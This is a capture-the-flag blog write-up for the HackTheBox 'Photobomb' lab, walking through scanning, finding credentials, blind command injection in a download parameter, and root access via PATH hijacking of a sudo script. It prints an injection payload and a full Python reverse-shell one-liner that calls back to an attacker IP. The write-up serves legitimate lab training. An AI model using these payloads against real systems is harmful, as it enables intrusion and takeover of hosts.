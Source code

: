 ```yaml
---
date: 2023-02-10 17:32:03
layout: post
title: HackTheBox - Photobomb

description: 
image: /assets/img/htb/photobomb/info.png
optimized_image: /assets/img/htb/photobomb/info.png
category: blog
tags:
  - hackthebox
  - Photobomb
  - web vulnerabilites
  - htb
  - command injection
  - basics privilege escalation
---
```


# Machine Information
This machine is from easy level worth 20 points.

IP: `10.10.11.182`

# Scanning and Enumeration
First thing add ip to `/etc/hosts` file to allow any dns records.

```bash
nano /etc/hosts
```
Use `nano` to open this file and put ip.

![image](/assets/img/htb/photobomb/nano1.png)

Naturally, we will use `nmap` to identify open ports and collect some information about that machine.

```bash
nmap -A -T5 -p- 10.10.11.182
Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-03 00:57 EST
Warning: 10.10.11.182 giving up on port because retransmission cap hit (2).
Stats: 0:01:44 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
Nmap scan report for 10.10.11.182
Host is up (0.094s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e22473bbfbdf5cb520b66876748ab58d (RSA)
|   256 04e3ac6e184e1b7effac4fe39dd21bae (ECDSA)
|_  256 20e05d8cba71f08c3a1819f24011d29e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://photobomb.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Aggressive OS guesses: Linux 4.15 - 5.6 (95%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.3 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8888/tcp)
HOP RTT      ADDRESS
1   92.39 ms 10.10.14.1
2   91.01 ms 10.10.11.182

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 372.55 seconds
```

After scanning, I found ports 22 and 80 open, so I'll go to Website and dig deeper.

![image](/assets/img/htb/photobomb/website.png)

When you press on `Click here`, a window pops up asking you to enter your username and password.

I'm trying to bypass that popup with basic auth techniques like sql injection, default credentials (admin: admin), nosql, etc.. but all of them didn't work.

After that, I thought that I would see a source code, and I actually found the credentials.

![image](/assets/img/htb/photobomb/source.png)

Use this credentials `pH0t0:b0Mb!` to bypass that popup.

![image](/assets/img/htb/photobomb/pass.png)

After logging in, I only found a download function, and now I'm going to test it.

![image](/assets/img/htb/photobomb/download.png)

Capture the request by burp, Send to repeater and Play in parameters.

The first thing that came to my mind after seeing a request is to try to test the `OS Command Injection` vulnerability in all parameters to find out which parameter is at vulnerable.

The vulnerable parameter is the file type you specified with that payload `; ping -c 10 10.10.11.182` and the result was waiting for the response for about 10 millis to know that this parameter was vulnerable to a `blind OS Command Injection` vulnerability.

I've tried using a number of characters as command separators like `| , || , &` , but only those that have succeeded `;` .

![image](/assets/img/htb/photobomb/burp.png)

Use command injection to get reverse shell.

I tried several payloads but only the [python-reverse-shell](https://highon.coffee/blog/reverse-shell-cheat-sheet/) worked.

```py
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Put that payload in that vulnerable parameter.

![image](/assets/img/htb/photobomb/payload.png)

Listen by netcat.

![image](/assets/img/htb/photobomb/nc.png)

Bingoo, I got the user flag.

![image](/assets/img/htb/photobomb/user.png)

# Privilege Escalation

Use `sudo -l` this option will print out the commands allowed (and forbidden) the user on the current host. 

![image](/assets/img/htb/photobomb/sudo.png)

This shows the current user can use this script `/opt/cleanup.sh` as root.

See the script to exploit it.

![image](/assets/img/htb/photobomb/script.png)

 The last line of the above script it is finding the filetype and it is executing it with root permission.
 
 To exploit it do that call the `find` binary using this relative path instead of the absolute path. By creating a malicious `find`, and modifying the path to include the current working directory, I should be able to abuse this misconfiguration, and escalate our privileges to root.
 
And that is known as a name [PATH-Variable-manipulation](https://systemweakness.com/linux-privilege-escalation-using-path-variable-manipulation-64325ab05469).

Add the current working directory to PATH.

![image](/assets/img/htb/photobomb/path.png)

Create the malicious `find` binary and make it executable.

![image](/assets/img/htb/photobomb/find.png)

Now, Run the script `opt/cleanup.sh`. 

Great, I become root.

![image](/assets/img/htb/photobomb/who.png)

Bingoo, I got the root flag.

![image](/assets/img/htb/photobomb/root.png)

